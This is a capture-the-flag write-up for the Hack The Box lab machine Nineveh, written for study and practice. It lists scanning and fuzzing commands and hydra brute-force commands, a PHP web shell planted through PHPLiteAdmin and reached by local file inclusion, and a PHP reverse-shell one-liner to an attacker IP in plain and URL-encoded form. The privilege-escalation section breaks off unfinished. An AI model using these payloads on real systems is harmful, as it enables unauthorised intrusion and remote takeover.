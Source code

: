 # Nineveh

**Machine ip:** 10.10.10.43

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.43 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.43`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.43`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b0a28bb0-1ce5-4555-b8ea-43c6cb74d925)

+ `nineveh.htb` subdomain discovered.
+ Add: `echo "10.10.10.43 nineveh.htb" >> /etc/hosts`
+ Check for subdomains, and there is nothing.
```
wfuzz -c -u http://10.10.10.43/ -H "Host: FUZZ.nineveh.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 178
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74415df0-f7e4-44e6-bf1c-6f634abeb157)

+ **Firstly**, navigate to `http://nineveh.htb/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c2011036-a4ab-432c-a4ad-ff243b9dcd85)

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://nineveh.htb/ -x asp,aspx,cgi,htm,html,js,json,jsp,php,pl,py,sh -b 403,404
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6e68ff8c-ecb5-49c5-9e96-bf3c5facc224)

+ Navigate to `http://nineveh.htb/department/login.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ef0dda2e-fd83-4edf-bcce-864d10ac9c29)

+ Page view source. **admin** and **amrois** users discovered on **http://nineveh.htb/department/login.php**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2ffc5eeb-eb9f-46a3-a9f2-e1dc57192d63)

+ Brute force using the wordlist: `/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt`
```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7a8f92b-97ca-4876-8cd3-84091385722d)

+ `admin`:`1q2w3e4r5t` credentials discovered on **http://nineveh.htb/department/login.php**


+ **Secondly**, navigate to `https://nineveh.htb/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/27f0d95d-b1e2-4e72-b56d-b8746e2e7505)

+ Check SSL certificate status: `curl https://nineveh.htb/ -vkI`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bf1f60d7-c3fd-40ba-81f1-7891c0b4b2f7)

+ `admin` username discovered on **https://nineveh.htb/db/**

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u https://nineveh.htb/ -x php,htm,html -b 403,404 -k
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34694892-72fd-468e-80f8-28492c074369)

+ Navigate to `https://nineveh.htb/db/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7e71e97a-0e14-4f5d-9b7d-65f8b6759cd5)

+ `searchsploit phpliteadmin 1.9`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4c1cf7ee-61d0-4f0e-bab8-46f67b876537)

+ [PHPLiteAdmin 1.9.3 - Remote PHP Code Injection requires authentication](https://www.exploit-db.com/exploits/24044)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d9322e69-d1ee-4397-8419-26f919a5e2a5)

+ Capture the login request on Burp proxy.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/810117ad-cc91-492e-a8a8-bd2c8ee34b80)

+ Send to intruder, and set the payloads.
+ Brute force using the wordlist: `/usr/share/seclists/Passwords/twitter-banned.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5725fbfc-755a-438c-8500-071ee78463e5)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/55fafbd0-eb21-431a-be79-3db22feed399)

+ `admin` username and `password123` password discovered on **https://nineveh.htb/db/**

## Exploitation
+ Navigate to `http://nineveh.htb/department/login.php`
+ Loging with credentials `admin`:`1q2w3e4r5t`
+ Navigate to `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
+ Check the path whether is vulnerable to LFI.
+ Use the LFI payload: `../../../../../../../etc/passwd`
```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd

http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6c83b59-310c-4bf9-8d2f-94b4d6771a15)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4a8c5328-264a-4fa1-8c3a-bab57c4e932b)

+ Keep going on chain.

+ Okay go back to [PHPLiteAdmin 1.9.3 - Remote PHP Code Injection requires authentication](https://www.exploit-db.com/exploits/24044) on **https://nineveh.htb/db/** again.
+ Login with `password123`
+ Create new database.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a511a89f-9e10-49dd-b1fa-134d3c64f2e9)

+ Create new table and go.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3bef59a1-f7cd-4e47-91d6-40712f3933b8)

+ Fill out field and default value, then create.
+ `<?php echo system($_REQUEST["cmd"]); ?>` payload for create.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/88cb1f74-3847-45f5-a6e5-e68caaa0a9d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e727b1cf-9c79-4476-95a5-44f07e721400)

+ Navigate to `http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd` for **/var/tmp/try.php**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/840b2abb-ea07-404a-8182-00ed1357adf5)

+ Change the file and payload:
```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/try.php&cmd=id;ls;pwd
```

+ The code executed.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/52b322d4-6962-4189-93e7-e4097102cfb9)

+ Reverse shell payload `php -r '$sock=fsockopen("10.10.14.18",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
+ [url encoding](https://www.url-encode-decode.com/) the payload:
```
php+-r+%27%24sock%3Dfsockopen%28%2210.10.14.18%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27
```

+ Start listener: `nc -lnvp 4444` on your attack machine.
+ Execute command:
```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/try.php&cmd=php+-r+%27%24sock%3Dfsockopen%28%2210.10.14.18%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27
```

+ Get shell.
+ Stable shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z
stty raw -echo; fg
reset
terminal type? xterm
export TERM=xterm  
export SHELL=bash

```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bffc80ba-8ed6-4c9a-99d4-8ca0c6533fd1)

+ **www-data** doesn't have read permission: `ls -l /home/amrois/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ca14a5be-2b4c-4845-a4bf-df1920bf9209)


+ Download [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) and transfer it to the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd7bf5da-cae9-49fe-bf09-f0a1be5f1cb7)

## Privilege Escalation:

### 1.Solution:
+ Run `./LinEnum.sh`
+ Check kernel exploit: [CVE-2017-16995](https://www.exploit-db.com/exploits/45010)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9a6683a9-0aed-49b1-b75f-eefd28943e50)

+ Download on your attack machine: `wget https://www.exploit-db.com/download/45010 -O exploit.c`
+ Compile it on the attack machine: ``




# References & Alternatives:
+ https://vvmlist.github.io/#nineveh
+ https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html
+ 
